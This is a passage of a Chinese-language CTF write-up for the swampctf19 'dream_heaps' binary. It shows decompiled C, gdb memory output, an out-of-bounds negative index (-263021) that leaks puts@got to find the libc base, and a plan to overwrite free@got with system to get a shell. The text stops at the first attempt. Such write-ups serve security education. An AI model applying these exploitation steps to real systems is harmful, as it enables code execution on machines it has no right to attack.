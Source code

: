 free完指针置为0  没有Use after free

```c
unsigned __int64 delete_dream() {
    int v1;              // [rsp+Ch] [rbp-14h] BYREF
    void *ptr;           // [rsp+10h] [rbp-10h]
    unsigned __int64 v3; // [rsp+18h] [rbp-8h]

    v3 = __readfsqword(0x28u);
    puts("Which dream would you like to delete?");
    v1 = 0;
    __isoc99_scanf("%d", &v1);
    if (v1 <= INDEX) {
        ptr = (void *)HEAP_PTRS[v1];
        free(ptr);
        HEAP_PTRS[v1] = 0LL;
    } else {
        puts("Nope, you can't delete the future.");
    }
    return __readfsqword(0x28u) ^ v3;
}
```

## 攻击方法

### 0x1 泄露libc基地址

我们知道可以通过read_dream结合负偏移量打印任意地址里的内容，但具体打印什么地址的内容呢？最好是got表中的地址，这样printf("%s")就会输出某个函数真实地址

这里我们通过gdb中的`search-pattern 0x00000`尝试查找`0x602020 (put@got)` 

```assembly
gef➤  search-pattern 0x602020
[+] Searching '\x20\x20\x60' in memory
[+] In 'nightmare/11-index/swampctf19_dreamheaps/dream_heaps'(0x400000-0x401000), permission=r-x
  0x400538 - 0x40053c  →   "\x20\x20\x60[...]" 
gef➤  x/10gx 0x400538
0x400538:	0x0000000000602020	0x0000000200000007
0x400548:	0x0000000000000000	0x0000000000602028
0x400558:	0x0000000300000007	0x0000000000000000
0x400568:	0x0000000000602030	0x0000000400000007
0x400578:	0x0000000000000000	0x0000000000602038
```

发现`0x400538`刚好有，那么我们应该从`HEAP_PTRS(0x6020a0)`偏移到这个位置       

 `(0x6020a0-0x400538) // 8 == 263021` 由此当我们输入下标为`-263021`时即可输出puts的真实地址

### 0x2 改写got表

改写比较好的选择就是free的真实地址，只在delete的时候被用到，只要堆的内容是/bin/sh改写成system真实地址之后就可以直接执行

#### 尝试一
